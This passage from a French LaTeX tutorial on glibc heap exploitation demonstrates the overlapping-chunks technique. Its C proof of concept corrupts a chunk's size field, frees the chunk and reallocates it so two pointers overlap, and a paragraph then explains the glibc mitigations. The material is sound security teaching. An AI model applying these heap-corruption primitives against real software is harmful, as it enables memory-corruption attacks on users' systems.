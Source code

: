 \paragraph{Démonstration par le code :}

\begin{verbatim}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <assert.h>

int main() {
    // 1. Allocation de 3 chunks consécutifs
    long *p1 = malloc(0x80 - 8);
    long *p2 = malloc(0x500 - 8);
    long *p3 = malloc(0x80 - 8);
    malloc(0x10); // Guard chunk

    memset(p1, '1', 0x80 - 8);
    memset(p2, '2', 0x500 - 8);
    memset(p3, '3', 0x80 - 8);
    
    // 2. Vulnérabilité : Overflow modifiant la taille de p2
    // On l'augmente à 0x581 pour englober p3 (0x500 + 0x80 | PREV_INUSE).
    *(p2 - 1) = 0x581; 

    // 3. Libération de p2 avec sa nouvelle taille corrompue
    free(p2);

    // 4. Réallocation couvrant la zone corrompue
    // p4 pointera sur l'ancienne adresse de p2 et englobera p3.
    long *p4 = malloc(0x580 - 8);

    // p4 et p3 se chevauchent (deux pointeurs sur la même zone).
    memset(p4, '4', 0x580 - 8);
    memset(p3, '3', 80);

    // Vérifie que les données écrites dans p3 se retrouvent bien dans p4
    assert(strstr((char *)p4, (char *)p3));
    
    return 0;
}
\end{verbatim}

\paragraph{Limitations et renforcement de la GLIBC :}
La technique a été mitigée par l'ajout de vérifications strictes d'intégrité lors de la manipulation des chunks. Actuellement, la GLIBC s'assure que le chunk suivant (calculé avec la nouvelle taille étendue) a bien son bit \texttt{PREV\_INUSE} ou correspond bien aux alignements prévus, et procède à des vérifications de correspondance entre la taille annoncée et le champ \texttt{prev\_size}. Créer les bonnes conditions demande de maîtriser la structure environnante de la mémoire.

\subsection{Exploitation au niveau applicatif}

